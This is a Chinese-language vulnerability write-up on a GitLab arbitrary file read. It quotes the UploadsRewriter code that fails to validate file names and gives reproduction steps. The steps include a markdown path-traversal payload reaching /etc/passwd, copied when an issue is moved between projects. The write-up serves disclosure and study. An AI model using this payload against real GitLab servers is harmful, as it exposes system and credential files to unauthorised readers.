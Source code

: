 # Gitlab 任意文件读取漏洞

## 一、漏洞简介

在`UploadsRewriter`不验证文件名，允许任意文件，以通过目录遍历移动的问题，以新项目时被复制。

用于查找参考的模式是：

```
  MARKDOWN_PATTERN = %r{\!?\[.*?\]\(/uploads/(?<secret>[0-9a-f]{32})/(?<file>.*?)\)}.freeze

```

这是使用的`UploadsRewriter`复制问题也跨文件复制时：

```
   @text.gsub(@pattern) do |markdown|
          file = find_file(@source_project, $~[:secret], $~[:file])
          break markdown unless file.try(:exists?)

          klass = target_parent.is_a?(Namespace) ? NamespaceFileUploader : FileUploader
          moved = klass.copy_to(file, target_parent)
...
   def find_file(project, secret, file)
        uploader = FileUploader.new(project, secret: secret)
        uploader.retrieve_from_store!(file)
        uploader
      end

```

由于没有限制`file`，因此可以使用路径遍历来复制任何文件。

## 二、漏洞影响

## 三、复现过程

1. 创建两个项目

    ![1.png](images/2c08682a913f412996555ef77f64b1d5.png)

2. 添加具有以下描述的问题：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

```

1. 将问题移至第二个项目

    ![2.png](images/a7c17ee28342422f82cadad0187425f0.png)

2. 该文件将被复制到项目中

    ![3.png](images/131618f4edb74e48bc9ca264c28c7724.png)

    ![4.png](images/873208870d954e8785644d0cb266b0fd.png)


